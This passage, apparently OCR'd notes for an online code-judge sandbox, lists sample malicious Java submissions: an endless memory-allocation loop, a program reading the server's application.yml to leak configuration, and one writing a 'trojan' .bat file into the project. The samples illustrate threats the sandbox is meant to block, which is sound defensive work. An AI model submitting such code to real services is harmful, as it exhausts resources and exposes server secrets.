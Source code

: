      ```java
     import java.util.List;
     import java.util.ArrayList;
     
     public class Main {
         public static void main(String[] args)
         {
             List<Byte[]> list = new ArrayList<>();
             while (true)
             {
                 list.add(new Byte[1024*1024]);
             }
         }
     }
     ```

  3. 读取服务器敏感信息

     - 例如读取服务器配置文件（application.yml）中的信息，导致信息泄露

       ```java
     import java.io.File;
       import java.io.IOException;
       import java.nio.file.Files;
       import java.util.List;
       
       public class Main {
           public static void main(String[] args) throws IOException {
               String userDir = System.getProperty("user.dir");
               String filePath = userDir + File.separator + "src/main/resources/application.yml";
               List<String> strings = Files.readAllLines(new File(filePath).toPath());
               System.out.println(String.join("\n", strings));
           }
       }
       ```
  
  4. 写文件，越权向系统植入木马

     ```java
   import java.io.File;
     import java.io.IOException;
     import java.nio.file.Files;
     import java.nio.file.Paths;
     import java.util.Arrays;
     
     public class Main {
         public static void main(String[] args) throws IOException {
             String userDir = System.getProperty("user.dir");
             String filePath = userDir + File.separator + "src/test/resources/木马.bat";
             String dangerousCode = "java -version 2>&1";
             Files.write(Paths.get(filePath), Arrays.asList(dangerousCode));
             System.out.println("危险程序植入成功");
         }
     }
     ```
  